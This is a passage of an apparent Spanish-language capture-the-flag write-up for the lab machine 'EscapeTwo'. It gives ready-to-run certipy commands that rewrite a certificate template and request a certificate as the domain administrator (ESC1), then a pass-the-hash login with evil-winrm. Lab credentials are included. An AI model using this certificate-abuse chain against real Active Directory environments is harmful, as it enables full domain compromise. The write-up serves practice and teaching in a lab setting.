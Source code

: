 Como vamos a sobrescribir el certificado para realizar este ataque, haré una copia de seguridad.

```bash
certipy template -username ca_svc@sequel.htb -p Password123! -template DunderMifflinAuthentication -save-old
```
#### Ejecutar el ataque ESC1 

```bash
certipy-ad req -username ca_svc@sequel.htb -p Password123! -ca sequel-DC01-CA -target DC01.sequel.htb -template DunderMifflinAuthentication -upn administrator@sequel.htb -ns 10.10.11.51
```
[![ESC1](/assets/img/posts/escapeTwo/certificado_guardado.png)](/assets/img/posts/escapeTwo/certificado_guardado.png)

#### Autenticación como administrador

```bash
certipy-ad auth -pfx administrator.pfx -domain sequel.htb 
```
[![ESC1](/assets/img/posts/escapeTwo/certificado_admin.png)](/assets/img/posts/escapeTwo/certificado_admin.png)

```bash
evil-winrm -i 10.10.11.51 -u administrator -H $hash 
```
#### Root Flag

[![Flag](/assets/img/posts/escapeTwo/root_flag.png)](/assets/img/posts/escapeTwo/root_flag.png)

